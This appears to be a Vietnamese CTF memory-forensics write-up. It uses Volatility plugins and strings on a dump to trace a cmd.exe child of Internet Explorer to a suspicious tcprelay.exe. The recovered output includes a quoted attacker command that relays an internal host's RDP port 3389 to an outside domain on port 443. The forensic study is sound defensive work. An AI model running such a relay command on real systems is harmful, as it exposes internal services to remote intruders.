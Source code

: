 Từ câu phía trên mình đã xác định được cmd.exe với process là 1616 chính là process con của một process độc hại. Vậy nên mình sẽ bắt đầu tìm kiếm những command được dùng bởi process này .

```
. 0x87b6b030:iexplore.exe                            2772   2548      2     74 2013-01-12 16:40:34 UTC+0000
.. 0x89898030:cmd.exe                                1616   2772      2    101 2013-01-12 16:55:49 UTC+0000
```

Dùng plugin ```consoles``` để trích xuất nội dung của các cửa sổ console (cmd.exe) đang chạy trong bộ nhớ của một hệ thống Windows

```
ConsoleProcess: conhost.exe Pid: 2168
Console: 0x1081c0 CommandHistorySize: 50
HistoryBufferCount: 3 HistoryBufferMax: 4
OriginalTitle: %SystemRoot%\system32\cmd.exe
Title: C:\Windows\system32\cmd.exe
AttachedProcess: cmd.exe Pid: 1616 Handle: 0x64
----
CommandHistory: 0x427a60 Application: tcprelay.exe Flags:
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
CommandHistory: 0x427890 Application: whoami.exe Flags:
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
CommandHistory: 0x427700 Application: cmd.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x64
----
Screen 0x416348 X:80 Y:300
Dump:
```

Oke và thấy có 1 phần mềm đáng nghi là ```tcprelay.exe```

```
 strings ch2.dmp | grep "tcprelay.exe"
  tcprelay.exe
  tcprelay.exe
  tcprelay.exe
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exe
\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exe
  tcprelay.exe
5C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeN_
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443
01/12/2013  05:57 PM            22,078 tcprelay.exe
mp\TEMP23\tcprelay.exe
 Doe\AppData\Local\Temp\TEMP23\tcprelay.exeJ
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443
```